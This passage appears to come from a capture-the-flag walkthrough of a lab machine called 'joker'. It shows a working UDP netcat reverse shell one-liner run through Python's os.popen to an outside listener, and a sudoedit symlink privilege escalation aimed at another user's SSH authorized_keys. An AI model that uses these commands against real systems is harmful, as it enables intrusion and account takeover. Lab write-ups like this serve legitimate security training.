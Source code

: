 So we can ping us back, I tried common methods to get a reverse shell but none worked, so i checked iptables

```python
>>> with open('/etc/iptables/rules.v4', 'r') as f: print(f.read())
# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017
*filter
:INPUT DROP [41573:1829596]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [878:221932]
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
-A INPUT -i ens33 -p udp -j ACCEPT
-A INPUT -i ens33 -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
COMMIT
# Completed on Fri May 19 18:01:16 2017
```

A UDP reverse shell is possible

```python
>>> os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.19 9001 >/tmp/f &").read()
```

I used this common nc reverse shell but I added -u for udp

```bash
$ nc -u -lvnp 9001
Bound on 0.0.0.0 9001
Connection received on 10.10.10.21 53369
/bin/sh: 0: can't access tty; job control turned off
$
```

<br/>

Now from low privileges shell to user

```bash
$ sudo -l
Matching Defaults entries for werkzeug on joker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    sudoedit_follow, !sudoedit_checkdir

User werkzeug may run the following commands on joker:
    (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
```

I'll use this sudoedit vulnerability, searchsploit -x linux/local/37710.txt

```bash
werkzeug@joker:~/testing$ mkdir priv
werkzeug@joker:~/testing$ cd priv/
$ ln -s /home/alekos/.ssh/authorized_keys layout.html
$ sudoedit -u alekos /var/www/testing/priv/layout.html
```
